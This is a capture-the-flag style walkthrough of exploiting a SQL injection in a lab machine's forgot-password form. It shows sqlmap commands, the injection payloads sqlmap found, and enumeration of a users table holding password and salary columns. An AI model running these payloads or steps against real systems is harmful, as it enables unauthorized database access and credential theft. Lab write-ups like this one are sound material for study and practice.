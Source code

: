 ![base login page]({{ page.img }}_login_page.png)

![forgot password]({{ page.img }}_forgot_password.png)

Since these login and forgot password fields are the only thing here for us to test I fuzz both for special characters. 

![forgot password fuzz]({{ page.img }}_forgot_pass_fuzz.png)

Seems we have a potential SQL injection vulnerability. I verify with a `' and 1='1` and I don't get an error. Simplest thing now is to run this through sqlmap and dig elsewhere.

```bash
sqlmap -r forgot_pass.req

---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: username=Administrator' OR NOT 1241=1241#

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=Administrator' OR (SELECT 3419 FROM(SELECT COUNT(*),CONCAT(0x7178706a71,(SELECT (ELT(3419=3419,1))),0x716a7a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- Agxl

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: username=Administrator';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=Administrator' AND (SELECT 8534 FROM (SELECT(SLEEP(5)))SoWy)-- PUMK
---
```

```bash
sqlmap -r forgot_pass.req --dbs

available databases [2]:
[*] information_schema
[*] monitorsthree_db
```

```bash
sqlmap -r forgot_pass.req -D monitorsthree_db -T users --columns

Database: monitorsthree_db
Table: users
[9 columns]
+------------+---------------+
| Column     | Type          |
+------------+---------------+
| name       | varchar(100)  |
| position   | varchar(100)  |
| dob        | date          |
| email      | varchar(100)  |
| id         | int(11)       |
| password   | varchar(100)  |
| salary     | decimal(10,2) |
| start_date | date          |
| username   | varchar(50)   |
+------------+---------------+
```
